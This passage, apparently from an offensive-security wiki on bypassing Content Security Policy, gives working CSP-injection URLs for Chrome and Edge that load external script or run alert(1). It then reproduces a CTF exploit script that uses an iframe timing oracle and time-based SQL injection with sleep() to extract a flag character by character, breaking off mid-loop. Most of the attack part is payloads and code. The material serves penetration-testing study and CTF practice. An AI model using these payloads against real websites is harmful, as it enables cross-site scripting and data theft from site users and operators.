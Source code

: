 Because this directive will **overwrite existing script-src directives**.\
You can find an example here: [http://portswigger-labs.net/edge_csp_injection_xndhfye721/?x=%3Bscript-src-elem+\*\&y=%3Cscript+src=%22http://subdomain1.portswigger-labs.net/xss/xss.js%22%3E%3C/script%3E](http://portswigger-labs.net/edge_csp_injection_xndhfye721/?x=%3Bscript-src-elem+*&y=%3Cscript+src=%22http://subdomain1.portswigger-labs.net/xss/xss.js%22%3E%3C/script%3E)

#### Edge

In Edge is much simpler. If you can add in the CSP just this: **`;_`** **Edge** would **drop** the entire **policy**.\
Example: [http://portswigger-labs.net/edge_csp_injection_xndhfye721/?x=;\_\&y=%3Cscript%3Ealert(1)%3C/script%3E](<http://portswigger-labs.net/edge_csp_injection_xndhfye721/?x=;_&y=%3Cscript%3Ealert(1)%3C/script%3E>)

### img-src \*; via XSS (iframe) - Time attack

Notice the lack of the directive `'unsafe-inline'`\
This time you can make the victim **load** a page in **your control** via **XSS** with a `<iframe`. This time you are going to make the victim access the page from where you want to extract information (**CSRF**). You cannot access the content of the page, but if somehow you can **control the time the page needs to load** you can extract the information you need.

This time a **flag** is going to be extracted, whenever a **char is correctly guessed** via SQLi the **response** takes **more time** due to the sleep function. Then, you will be able to extract the flag:

```html
<!--code from https://github.com/ka0labs/ctf-writeups/tree/master/2019/nn9ed/x-oracle -->
<iframe name="f" id="g"></iframe> // The bot will load an URL with the payload
<script>
  let host = "http://x-oracle-v1.nn9ed.ka0labs.org"
  function gen(x) {
    x = escape(x.replace(/_/g, "\\_"))
    return `${host}/admin/search/x'union%20select(1)from%20challenge%20where%20flag%20like%20'${x}%25'and%201=sleep(0.1)%23`
  }

  function gen2(x) {
    x = escape(x)
    return `${host}/admin/search/x'union%20select(1)from%20challenge%20where%20flag='${x}'and%201=sleep(0.1)%23`
  }

  async function query(word, end = false) {
    let h = performance.now()
    f.location = end ? gen2(word) : gen(word)
    await new Promise((r) => {
      g.onload = r
    })
    let diff = performance.now() - h
    return diff > 300
  }

  let alphabet = "_abcdefghijklmnopqrstuvwxyz0123456789".split("")
  let postfix = "}"

  async function run() {
    let prefix = "nn9ed{"
    while (true) {
      let i = 0
      for (i; i < alphabet.length; i++) {
        let c = alphabet[i]
        let t = await query(prefix + c) // Check what chars returns TRUE or FALSE
        console.log(prefix, c, t)
        if (t) {
```
